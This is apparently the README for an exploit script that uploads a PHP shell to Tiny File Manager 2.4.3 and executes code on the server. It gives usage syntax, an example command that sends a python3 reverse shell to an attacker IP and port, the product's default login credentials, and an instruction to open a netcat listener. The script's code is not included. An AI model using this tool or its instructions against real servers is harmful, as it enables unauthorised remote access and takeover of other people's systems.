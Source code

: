 # Tiny File Manager 2.4.3 RCE v2
Just a simple script, created by FEBIN MON SAJI (https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/) and modified by me that uploads a php shell and executes arbitrary code on the remote vulnerable server.

### Changes:
  - Added python3 reverse shell functionality. 
  - Added another uploading method: Now, it checks if the original upload has been successful and, if not, tries another location using other params.
  - Added cleaning stuff and some style changes

### Use:

        Tiny File Manager Authenticated RCE POC Exploit - V2.

        By FEBIN - Modified by W1s3m4n

        ./exploit.sh <URL> <Admin Username> <Password> <LocalIP> <LocalPort>

        Example: ./exploit.sh http://files.ubuntu.local/tinyfilemanager.php admin "admin@123" 10.10.14.111 2319

        Default creds:
                - admin:admin@123
                - user/12345

        SHELL: Open a netcat listener on LocalIP and LocalPort for python3 reverse shell


  
 
